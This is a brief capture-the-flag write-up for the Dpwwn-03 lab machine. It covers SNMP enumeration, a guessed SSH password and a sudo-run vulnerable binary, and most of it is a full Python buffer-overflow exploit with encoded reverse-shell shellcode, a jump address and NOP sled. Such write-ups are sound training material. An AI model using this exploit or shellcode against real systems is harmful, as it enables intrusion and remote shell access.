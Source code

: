 # Dpwwn-03

The machine offers an easy access with username and password "john". This must be guessed after reading the username from the SNMP information, which can be retrieved using the communnity string "public".

This offers an access through SSH with user "john", who can run with sudo a Bash script which executes a binary named "smashthestack".

It is a Vanilla Buffer Overflow where it is possile to jump directly to the stack, which may be more difficult than it sounds. 

When the exploit works using GDB, the stack address must be updated to a little bit (lol?) higher address to work without GDB, and then again some more bytes to work with the Bash script running with sudo.

```
import sys,socket

# Reverse shell for linux x86, lhost = 127.0.0.1, lport = 8000, encoding = x86/alpha_mixed, no conflictive characters
payload = (
"\x89\xe3\xda\xdd\xd9\x73\xf4\x5d\x55\x59\x49\x49\x49\x49\x49"
"\x49\x49\x49\x49\x49\x43\x43\x43\x43\x43\x43\x37\x51\x5a\x6a"
"\x41\x58\x50\x30\x41\x30\x41\x6b\x41\x41\x51\x32\x41\x42\x32"
"\x42\x42\x30\x42\x42\x41\x42\x58\x50\x38\x41\x42\x75\x4a\x49"
"\x70\x31\x79\x4b\x39\x67\x38\x63\x42\x73\x53\x73\x63\x63\x62"
"\x4a\x75\x52\x6d\x59\x6b\x51\x4e\x50\x50\x66\x7a\x6d\x4f\x70"
"\x6a\x33\x66\x39\x4c\x70\x35\x6f\x68\x4d\x4b\x30\x72\x69\x42"
"\x59\x59\x69\x51\x78\x53\x4f\x33\x30\x47\x70\x47\x71\x71\x78"
"\x77\x72\x63\x30\x67\x6f\x77\x30\x4d\x59\x6d\x31\x48\x30\x43"
"\x56\x62\x70\x30\x51\x63\x63\x6f\x43\x63\x33\x4d\x59\x49\x71"
"\x68\x4d\x6b\x30\x62\x72\x55\x38\x70\x6e\x34\x6f\x72\x53\x30"
"\x68\x71\x78\x46\x4f\x56\x4f\x32\x42\x30\x69\x4e\x69\x68\x63"
"\x52\x72\x30\x53\x4d\x59\x6d\x31\x6c\x70\x46\x6b\x7a\x6d\x4d"
"\x50\x41\x41"
)

ip_ = '127.0.0.1'
port_ = 3210

# First get the stack address with gdb ("\x20\xf2\xff\xbf")
# then as john (without gdb) adding some bytes ("\x40\xf2\xff\xbf")
# then add some more running as root from the SH script ("\x80\xf2\xff\xbf")
jmp_stack = "\x80\xf2\xff\xbf"

nop = '\x90'
buff = '\x41'*732+jmp_stack+nop*50+payload

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip_, port_))
s.send(buff)
s.close()
```